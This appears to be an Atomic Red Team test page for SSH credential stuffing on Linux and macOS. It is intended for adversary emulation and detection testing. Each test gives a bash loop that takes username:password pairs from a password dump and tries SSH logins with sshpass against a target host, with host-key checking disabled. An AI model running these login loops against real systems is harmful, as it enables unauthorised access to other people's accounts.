 Using username,password combination from a password dump to login over SSH.

**Supported Platforms:** Linux

**auto_generated_guid:** 4f08197a-2a8a-472d-9589-cd2895ef22ad

#### Inputs:

| Name        | Description                               | Type   | Default Value |
| ----------- | ----------------------------------------- | ------ | ------------- |
| target_host | IP Address / Hostname you want to target. | string | localhost     |

#### Attack Commands: Run with `bash`!

```bash
cp "$PathToAtomicsFolder/T1110.004/src/credstuffuserpass.txt" /tmp/
for unamepass in $(cat /tmp/credstuffuserpass.txt);do sshpass -p `echo $unamepass | cut -d":" -f2` ssh -o 'StrictHostKeyChecking=no' `echo $unamepass | cut -d":" -f1`@#{target_host};done
```

#### Dependencies: Run with `bash`!

##### Description: Requires SSHPASS

##### Check Prereq Commands:

```bash
if [ -x "$(command -v sshpass)" ]; then exit 0; else exit 1; fi;
```

##### Get Prereq Commands:

```bash
if [ $(cat /etc/os-release | grep -i ID=ubuntu) ] || [ $(cat /etc/os-release | grep -i ID=kali) ]; then sudo apt update && sudo apt install sshpass -y; else echo "This test requires sshpass" ; fi ;
```

<br/>
<br/>

## Atomic Test #2 - SSH Credential Stuffing From MacOS

Using username,password combination from a password dump to login over SSH.

**Supported Platforms:** macOS

**auto_generated_guid:** d546a3d9-0be5-40c7-ad82-5a7d79e1b66b

#### Inputs:

| Name        | Description                               | Type   | Default Value |
| ----------- | ----------------------------------------- | ------ | ------------- |
| target_host | IP Address / Hostname you want to target. | string | localhost     |

#### Attack Commands: Run with `bash`!

```bash
cp "$PathToAtomicsFolder/T1110.004/src/credstuffuserpass.txt" /tmp/
for unamepass in $(cat /tmp/credstuffuserpass.txt);do sshpass -p `echo $unamepass | cut -d":" -f2` ssh -o 'StrictHostKeyChecking=no' `echo $unamepass | cut -d":" -f1`@#{target_host};done
```
